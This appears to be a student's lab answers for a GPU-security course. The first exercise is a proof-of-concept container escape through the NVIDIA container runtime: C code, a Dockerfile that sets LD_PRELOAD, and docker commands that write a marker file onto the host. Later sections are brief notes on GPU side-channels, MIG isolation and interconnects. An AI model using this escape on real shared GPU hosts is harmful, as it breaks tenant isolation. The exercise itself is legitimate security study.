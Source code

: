 # Exercise 1

poc.c file:

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) init() {
        FILE *fptr;

        // Open a file in writing mode
        fptr = fopen("/tmp/output-jord-sam.txt", "w");
        if (fptr == NULL)
                printf("The file is not opened.");
        else{
                fprintf(fptr, "user: jord-sam\n");
        }
        fclose(fptr);
}
```
Dockerfile:
```dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/poc.so
ADD poc.so /
```
Commands:
```bash
$make poc.so
$docker build . -t nct-exploit-jord-sam
$docker run --rm --runtime=nvidia --gpus=all nct-exploit-jord-sam
$cat /tmp/output-jord-sam.txt
```

# Exercise 2.1

**Container GPU Issues: What security vulnerabilities might arise when GPUs 
are shared between containers or when containers have direct GPU access?**

- Context-switching timing penalties exfiltrates shared GPU operations from delays in 
obtaining requested resources
- MPS is off by default in cloud computing to allow for different priorities for 
processes, but that just slows down sampling (by orders of magnitude) but the side-channel
attack is still possible

**VM GPU Passthrough: What attack vectors are introduced when GPUs are passed 
through directly to virtual machines?**

- Directly = can read everything -> Seems bad (can just get information directly)
- Bad configs will let one VM read the other VM

**Isolation Concerns: How might GPU memory persistence, side-channel attacks, 
or privilege escalation differ between containerized and VM environments?**

![vm vs containerization](image.png)

- Shared GPUs are cheaper (allow multiple people to use them) but tradeoff with the
security risk
- There are services that only let you rent whole GPU (lambda labs allows for GPU 
sharing, vast ai doesn't) 
- VM means attacks need to go through the hypervisor so less prone to side-channel 
timing attacks but are vulnerable to lower-level hardware attacks



# Exercise 2.2 

Your Task: After reviewing the materials above, analyze advanced GPU security considerations by addressing:

    Software vs. Hardware Isolation: How does Kubernetes namespace-based multi-tenancy compare to NVIDIA MIG's hardware partitioning for GPU security?

    - Same thing as earlier VMs vs containers. Kubernetes is easier to escalate privileges e.g. if misconfigured. 
    - Hardware partitioning (NVIDIA) is sharing on the same physical GPU -> vulnerable to attacks like exercise 1.


    Attack Surface Analysis: What new vulnerabilities emerge when multiple tenants share GPU resources, and how do different isolation approaches mitigate these risks?

    - The moment you 'break out' of your partition youd get access to everything else. 
    - Isolation with hardware makes this harder, but there's still going to be information you can learn from the behaviour of the GPU. 
    - DOS by overloading one particular process, denying other services on the same GPU trying to use that same process.

    Resource Guarantees: How do the quality-of-service guarantees provided by MIG differ from traditional container resource limits for GPU workloads?

    - MIG ensures one client cannot impact the work or scheduling of other clients and provides enhanced isolation for customers. With MIG, each MIG partition's processors have separate and isolated paths through the entire memory system - the on-chip crossbar ports, L2 cache banks, memory controllers, and DRAM address buses are all assigned uniquely to an individual Instance.
    - But 1/7th of a GPU is really limited, like if you're a datacentre you probably don't want it ?



Deliverable: Compare the security trade-offs between software-only multi-tenancy and hardware-assisted GPU partitioning, identifying which approach would be more suitable for a high-security AI training environment and why.




# Exercise 3.1 GPU Interconnect Architecture



    PCIe Lanes: How do PCIe lanes affect GPU performance? What happens when a GPU has fewer lanes than expected?

    More lanes -> more data flowing to and fro. Bottlenecked, slower than expected 

    NVLink Benefits: Why use NVLink instead of PCIe for GPU-to-GPU communication? What performance advantages does it provide?

    Fast.

    System Architecture: In a multi-GPU training setup, when would data flow through PCIe vs. NVLink?

    NVlink if just gpus talking to each other. pcie for anything else.

Deliverable: Draw a diagram describing how data flows between CPU, system memory, and 4 GPUs connected via both PCIe and NVLink, labeling the bandwidth differences.

[diagram]

Stretch: How does this extend to multi-node clusters? How does infiniband fit in?

infiniband connects the switches that control the nvlinks. lots of data etc. essentially still gpus talking to each other but across nodes.







